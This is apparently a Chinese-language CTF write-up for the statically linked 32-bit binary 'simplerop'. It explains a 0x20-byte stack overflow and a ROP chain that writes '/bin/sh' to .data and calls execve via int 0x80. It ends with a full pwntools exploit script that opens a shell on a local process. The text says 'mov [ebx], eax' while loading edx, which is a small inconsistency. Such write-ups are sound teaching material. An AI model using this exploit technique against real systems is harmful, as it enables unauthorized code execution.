



## 0x001 程序分析

打开程序分析，这个程序代码很简单，直接通过read函数接收输入



## 0x002 漏洞利用

分析main函数可知存在栈溢出漏洞，经过实际测试，溢出长度为0x20。

查看程序开启的保护：



之开启了NX，因为代码中没有system地址，首先考虑到构造ROP泄漏libc地址。

但是，由于该程序是静态编译的，函数都编译到了代码内部，无法通过GOT表泄漏libc地址，因此只能通过寻找程序内部的gadget构造ROP来获取系统权限。

还好程序中还有int 0x80系统调用



那么接下来的思路就是首先构造ROP，将字符串 **"/bin/sh"** 写入内存，然后使用 **int 0x80** 系统调用执行 **execve("/bin/sh", 0, 0)** 获取系统权限。

使用 **mov [ebx], eax** 将 **/bin** 写入 **.data** 段
```
payload = p32(pop_edx_ret) + p32(data_start_addr) + p32(pop_eax_ret) + b"/bin" + p32(0x0809a15d)
```

使用 **mov [ebx], eax** 将 **/sh** 写入 **.data** 段
```
payload = p32(pop_edx_ret) + p32(data_start_addr+4) + p32(pop_eax_ret) + b"/sh\x00" + p32(0x0809a15d)
```

通过 **int 0x80** 执行11号系统调用 **execve** 获取系统权限
```
payload = p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(data_start_addr) + p32(pop_eax_ret) + p32(0xb) + p32(int_0x80)
```

这里解释下为什么在溢出时不直接将返回地址跳转到read读取字符串呢？因为程序中也是使用read函数接收输入的，接着再次调用read，第二次read容易接收不到数据，因为在pwntools中，连续调用两次send容易将数据都发到第一个read里，导致第二个read接收不到数据，因此使用了 **mov [ebx], eax** 的方法将数据写入内存里，这样会使EXP利用更加稳定。

最终EXP如下：
```
from pwn import *

p = process('./simplerop')
elf = ELF("simplerop")
rop = ROP(elf)

data_start_addr = 0x080EC05A
int_0x80 = 0x080493e1
pop_edx_ret = rop.edx[0]
pop_eax_ret = rop.eax[0]
pop_edx_ecx_ebx_ret = rop.edx_ecx[0]

payload = b"A" * 0x20
payload += p32(pop_edx_ret) + p32(data_start_addr) + p32(pop_eax_ret) + b"/bin" + p32(0x0809a15d)
payload += p32(pop_edx_ret) + p32(data_start_addr+4) + p32(pop_eax_ret) + b"/sh\x00" + p32(0x0809a15d)
payload += p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(data_start_addr) + p32(pop_eax_ret) + p32(0xb) + p32(int_0x80)

p.sendline(payload)
p.interactive()
```